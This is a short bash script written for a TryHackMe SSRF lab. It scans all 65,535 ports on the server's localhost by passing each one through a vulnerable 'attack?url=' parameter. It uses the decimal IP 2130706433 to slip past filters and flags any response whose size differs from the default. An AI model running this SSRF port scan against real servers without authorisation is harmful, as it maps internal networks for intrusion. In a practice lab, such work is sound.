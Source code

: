 <!-- This file is build for the THM SSRF Lab and will "curl" the 
site and test for any open ports.

To use this 
change the URL and if needed the port. Then copy and paste into the bash commandline and it will start.

Be patient. It might take a bit depending on your system.
 -->


for x in {1..65535};
    do cmd=$(curl -so /dev/null http://x.x.x.x:8000/attack?url=http://2130706433:${x} \
        -w '%{size_download}');
    if [ $cmd != 1045 ]; then
        echo "Open port: $x"
    fi
done

